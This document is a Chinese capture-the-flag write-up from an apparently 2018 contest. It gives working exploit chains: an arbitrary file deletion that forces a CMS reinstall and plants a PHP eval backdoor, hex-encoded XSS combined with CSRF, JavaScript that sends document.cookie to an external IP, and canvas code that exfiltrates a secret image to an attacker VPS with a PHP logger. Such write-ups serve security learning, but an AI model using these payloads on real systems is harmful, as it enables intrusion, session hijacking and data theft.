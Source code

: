 ```yaml
---
title: 巅峰极客ctf
date: 2018-07-23 20:33:53
tags: ctf
---
```


## pentest

1. 御剑扫描

2. 经过目录扫描，发现`file/file.php`

   根据网页最后提示:

   ```
   DELETE FILE
   Sorry,no filename!
   ```

   可以猜测存在任意文件删除漏洞。

3. 首先我们删除`install.lock`

   ```
   http://c2a2868220484acaae0b962988dbecbbd872061666de4bc6.game.ichunqiu.com/file/file.php?file=...//config/install.lock
   ```

4. 重装metinfo，重装的时候数据库名填写 

   ```
   met#*/@eval($_GET[1]);/*
   ```

   数据库密码为`root`

5. 执行shell即可

   ```
   http://c2a2868220484acaae0b962988dbecbbd872061666de4bc6.game.ichunqiu.com/config/config_db.php?1=system(%27ls%27);
   ```

## mysqlonline

首先通过mysql查询，经过hex编码在输出，可以造成xss。

```
select 0x3c7363726970743e616c6572742831293c2f7363726970743e
```

结合CSRF即可打后台:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://106.75.35.230:9001/runsql.php " method="POST">
      <input type="hidden" name="sql" value="select 0x30783c736372697074207372633d687474703a2f2f69702f7873732f312e6a733e3c2f7363726970743e" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

```
0x30783c736372697074207372633d687474703a2f2f69702f7873732f312e6a733e3c2f7363726970743e
=> 
<script src=http://ip/xss/1.js></script>
```

js的内容:

```
self.location = 'http://123.207.90.143/x.php?v=aaa'+btoa(document.cookie)+'aaa';
```

修改CSRF payload:

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/runsql.php" method="POST">
      <input type="hidden" name="sql" value="select 0x30783c736372697074207372633d687474703a2f2f69702f7873732f312e6a733e3c2f7363726970743e" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

通过以上操作，可以发现后台有`admin_zzzz666.php`页面

但是admin_zzzz666.php并无flag，只有`./static/img/iamsecret_555.jpg `

修改payload,也就是vps上的js文件，利用canvas获取图片:

```
var love={ajax:function(){var a;try{a=new XMLHttpRequest()}catch(e){try{a=new ActiveXObject("Msxml2.XMLHTTP")}catch(e){try{a=new ActiveXObject("Microsoft.XMLHTTP")}catch(e){return false}}}return a},req:function(b,c,d,e){d=(d||"").toUpperCase();d=d||"GET";c=c||"";if(b){var a=this.ajax();a.open(d,b,true);if(d=="POST"){a.setRequestHeader("Content-type","application/x-www-form-urlencoded")}a.onreadystatechange=function(){if(a.readyState==4){if(e){e(a)}}};if((typeof c)=="object"){var f=[];for(var i in c){f.push(i+"="+encodeURIComponent(c[i]))}a.send(f.join("&"))}else{a.send(c||null)}}},get:function(a,b){this.req(a,"","GET",b)},post:function(a,b,c){this.req(a,b,"POST",c)}};

function getBase64(img){
    function getBase64Image(img,width,height) {//width、height调用时传入具体像素值，控制大小 ,不传则默认图像大小
        var canvas = document.createElement("canvas");
        canvas.width = width ? width : img.width;
        canvas.height = height ? height : img.height;

        var ctx = canvas.getContext("2d");
        ctx.drawImage(img, 0, 0, canvas.width, canvas.height);
        var dataURL = canvas.toDataURL();
        return dataURL;
    }
    var image = new Image();
    image.crossOrigin = '';
    image.src = img;
    return new Promise((resolve,reject)=>{
        image.onload =function (){
            resolve(getBase64Image(image));//将base64传给done上传处理
        }
    });
}

getBase64('http://127.0.0.1/static/img/iamsecret_555.jpg').then(base64 => {
    love.post(
      "http://ip/xss/x.php",
      "v="+base64,
      function(res){
        console.log(res);
      }
    );
}, err => {
    console.log(err)
})
```

vps上xss.php:

```
<?php
header('Access-Control-Allow-Origin: *');
file_put_contents('log.txt',$_POST['v']);
```

最后会获取到图片，当然这个过程中+会被转换为空格，所以后面还要转换回来。 

## Dedefun

```
参考网址：
https://paper.tuisec.win/detail/d1053143f127862
https://xz.aliyun.com/t/2469#toc-3
```

**主要用来找后台目录**

## A simple CMS

**利用缓存getshell**

慢慢分析吧。挖坑



